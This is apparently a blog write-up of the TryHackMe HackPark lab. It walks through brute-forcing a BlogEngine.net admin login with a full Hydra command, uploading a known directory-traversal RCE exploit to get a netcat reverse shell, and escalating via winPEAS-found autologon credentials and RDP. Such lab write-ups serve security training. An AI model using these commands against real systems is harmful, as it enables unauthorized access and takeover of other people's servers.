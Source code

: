 ```yaml
---
layout: single
title:  "HackPark Writeup - TryHackMe"
date:   2020-07-31 20:00:00 -0400
classes: wide
categories: THM
tags:
 - Bruteforcing
 - Privesc
 - OSCP
 - Hydra
 - winPEAS
---
```


This time we will be resolving the HackPark room from [TryHackMe](https://tryhackme.com/). This box is part of the Offensive pentesing learning path so will be very useful for our OSCP journey.

## Room info


![Machine Info](/images/THM/HackPark/01-machine-info.png "Machine Info"){: .align-center}



## Enumeration

For some reason, nmap is not giving any information about the open ports for this machine, but I will anticipate that we have ports **80** and **3380** open.

First of all, taking a look of the website ```http://10.10.203.246``` we see the following landing page:

![Landing Page](/images/THM/HackPark/00-landing-page.png "Landing Page"){: .align-center}

Doing a reverse image search on the clown picture, we can tell that is **Pennywise** from IT movie.

Moving on, the next interesting section of the website is the **Log In** panel on the right menu

![Right Menu](/images/THM/HackPark/02-login.png "Right Menu"){: .align-center}

So, we click on **Log In** and get to a login page. In the landing page we see **Blogengine.net** and a form asking for user and password. 

URL: ```http://10.10.203.246/Account/login.aspx```

![Login](/images/THM/HackPark/03-blog-login.png "Login"){: .align-center}

As we know, the room description says we will be using hydra for bruteforcing. So, before that is important to know what is the default user for **Blogengine**. 

After a quick Google research we got **admin** as the default user and from now on just need to obtain the password through bruteforcing with Hydra.


## Exploiting



For the tool to work, we need to specify the following information:

> hydra -l [User] -P [Pass] [Target IP] [Request Method] "[Login form Path]:[Request body]:[Failure message]"

- The user field is ```admin```.
- For the **Pass** field we will be using ```rockyou.txt``` wordlist.
- The target IP is ```10.10.203.246```.
- The login form path will be ```/Account/login.aspx```.

For the rest, we will have to do a little research on the login page. Using the Developer tools from our browser we can see how the login form send the request.

The network tab will show the request method whenever we make a submit on the login form. So, let's go ahead and make a request with the following params:

- Username: ```usertest```
- Password: ```passtest```

![Method](/images/THM/HackPark/03-form-method.png "Method"){: .align-center}

Now we know the form is using POST method to make the request and using the **Edit and Resend** button in the bottom right corner we can see the raw body request. Finally, we also get the message whenever a wrong user/pass is entered: ```Login failed```. 

![Request](/images/THM/HackPark/03-request.png "Request"){: .align-center}

**Request Body**
```bash
__VIEWSTATE=49GAAjlZ%2B4B1%2Bz38DrOFSr7m8aWbh0CXLp8Xr2aPBM2liP4BPRanZv%2Bsnfh62wyJQLsPPiHvYs6oZ5ngezwSDWtN9kSbkJYkqhj%2Fdcvfk0iQv7ShrL9zDiVLHkHAzvF7bEV0%2FgUB5BfJVrw0MFhYcvzn9a0rlmhy8J%2BMjjD53W4mULD4&__EVENTVALIDATION=sXh8q7nd3FnQbnON%2BvVUJwD7BbO7R8oPcmNeBZMWODV4Exie1bp00VsrrcY70IHcnw%2B3oo%2Bgu%2FXsUt2HuFYShgSXZf1qf%2FOosRaywgIUr7HIriKizOiGdSotndccZxhlmHYKGSu9iGAuAQsT5%2BZoAu3zLyGex42pPknzmCQw5%2FRCe%2BUN&ctl00%24MainContent%24LoginUser%24UserName=usertest&ctl00%24MainContent%24LoginUser%24Password=passtest&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

For hydra to work, we need to specify a couple of placeholders for the USER and PASS params in the request. If we take a closer look to the raw request, we can see the user and pass entered earlier: 

```
LoginUser%24UserName=usertest&ctl00%24MainContent%24LoginUser%24Password=passtest
```

So we replace in this case **usertest** for ```^USER^``` and **passtest** for ```^PASS^```

```
LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^
```


**Full command**

After getting all the information, the full command look like this:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.203.246 http-post-form "/Account/login.aspx:__VIEWSTATE=DuOBP%2BgZJeq6AMydj5niN1uZM%2FDPpZMaxfWo5oEC4brEJy1oBLy29HUrOfHMJVOGXkG1660e6jVooc9Yq08XSwXuS6%2BEAz0wmCd9zrPJ%2FvRTEfvW4%2FydsHFgcUy%2BaIkSagapG4M4u0EK%2FxLTi5gChTWoajmuqFTxAa8qQQJOi7n9k0Fmpfq1MZzahKDFn5OJvCfq6JW%2FQVV4w%2FwQsnL03wpViAbcqU5CAVBTo9igmfmnTanl64dDgoz8ZkXx0sfLD8O136c%2BVm6kcfY3olmQUP34NqflsNH9hVBYr4piqoMqK%2BQjG2SI4cgyyRbcUjLnOryib9veu%2BsGI147wYnLVmnQT1HR0uePIIBJ%2BA3UQJZngtnK&__EVENTVALIDATION=yxXvvmOhIbyz01WxElUbLdtpbMGxCzl5Rt2yC8ppVo8aEkoGj61ik751%2FMdx5Ea6wPF4FA5bjdCtJ%2BJ2terqrBoDEHH8mETsjtorsuBx5xG0AxeHmiNLCZGHt0BDXhVuDeihrfZuN6Wb89YIQvzsLZT4aFAD2DEeuiF3stBpJy%2Bco6jP&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -t 60 -V
```
So we lunch hydra and in a couple of minutes we got the password for the admin user.

![Hydra bruteforcing](/images/THM/HackPark/02-hydra-BF-blur.png "Hydra bruteforcing"){: .align-center}

Logging in, the first thing to do is found the version of the CMS, for this we go to the About tab on the sidebar menu.

![Blog version](/images/THM/HackPark/03-blog-version.png "Blog version"){: .align-center}

With this information, now we proceed to take a look on exploitdb if there is already an exploit or CVE for this CMS. 

![Searchsploit](/images/THM/HackPark/04-searchsploit.png "Searchsploitn"){: .align-center}


There is indeed an exploit available for our CMS version. Let's take a look to the one named ***"BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution"*** and read it carefully.

It is a exploit written in C# which will allow us to get a reverse shell exploiting a vulnerable code in the ```PostList.ascx.cs``` file. To abuse this vulnerability, we have to do the following:

- Edit the exploit with our local IP address and Port for the reverse shell.

![Exploit](/images/THM/HackPark/04-modify-exploit.png "Exploit"){: .align-center}


- Set a listener with the same parameters.

```go
┌─[✗]─[root@parrot]─[/home/hsct/TryHackMe/HackPark]
└──╼ #rlwrap nc -nlvp 443
listening on [any] 443 ...
```

- Rename the exploit as: ```PostList.ascx```.
- In the CMS, go to ***Content > Posts > New*** and add a new post uploading our ```PostView.ascx``` file. Click on the open folder icon.

![Exploit Upload 1](/images/THM/HackPark/06-upload-01.png "Exploit Upload 1"){: .align-center}

- Upload the exploit using the file manager and add it to the new post.

![Exploit Upload 2](/images/THM/HackPark/06-upload-02.png "Exploit Upload 2"){: .align-center}

- Set a title and save it.

![Exploit Upload 3](/images/THM/HackPark/06-upload-03.png "Exploit Upload 3"){: .align-center}


- Open the URL: ```http://10.10.203.246/?theme=../../App_Data/files```.

Finally we get the reverse shell.

```go
┌─[✗]─[root@parrot]─[/home/hsct/TryHackMe/HackPark]
└──╼ #rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.13.0.103] from (UNKNOWN) [10.10.203.246] 49428
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```

## Privilege Escalation

For privesc we are going to use [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) which is awesome for a system quick scan. We need to make sure to download the correct version of the binary as we are in a x64 machine.

```batch
Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard Evaluation
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-10000-00000-AA228
Original Install Date:     8/3/2019, 10:43:23 AM
System Boot Time:          7/31/2020, 9:45:02 PM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
```
With the tool already in the machine, we proceed to run it by simply doing ```winPEAS.exe``` from the console. From the output, this part look interesting:

![Autologon Credentials](/images/THM/HackPark/06-credentials-blur.png "Autologon Credentials"){: .align-center}

**winPEAS** just found us some autologon credentials from the **Administrator** user, so the next step is checking this creds through RDP.

```bash
xfreerdp /u:Administrator /p:4q6Xv******** /v:10.10.203.246
```

![Administrator access](/images/THM/HackPark/07-admin-access.png "Administrator access"){: .align-center}

That's it! now we got Administrator privileges and access to the root flag in the desktop.